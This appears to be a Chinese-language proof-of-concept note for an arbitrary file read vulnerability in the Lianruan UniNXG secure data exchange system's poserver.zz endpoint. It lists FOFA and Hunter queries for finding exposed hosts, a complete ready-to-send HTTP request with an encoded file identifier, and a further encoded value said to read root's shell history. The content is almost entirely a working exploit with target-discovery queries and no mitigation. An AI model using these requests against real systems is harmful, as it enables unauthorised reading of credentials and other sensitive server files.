

# 联软安渡 UniNXG 安全数据交换系统poserver.zz存在任意文件读取漏洞
## 资产搜索
fofa

`body="UniExServices"`

`icon_hash="1397838899"`

hunter

`web.icon="928831999d8de4c41d271319631ab01b"`


## POC
```url
GET /UniExServices/poserver.zz?pgop=opendiskdoc&id=KmcgY3MtK3IpLSRfOXE9YmpkL2orbBdrKztnJCltInIrbDhyP24rOzhjPHI= HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close

```



读取/root/.bash_history 历史命令

`KmcgY3MtJm0lcmUsFl85ZhVmL3E4bSZ3amQvaitsF2srO2ckKW0icitsOHI/bis7OGM8cg==`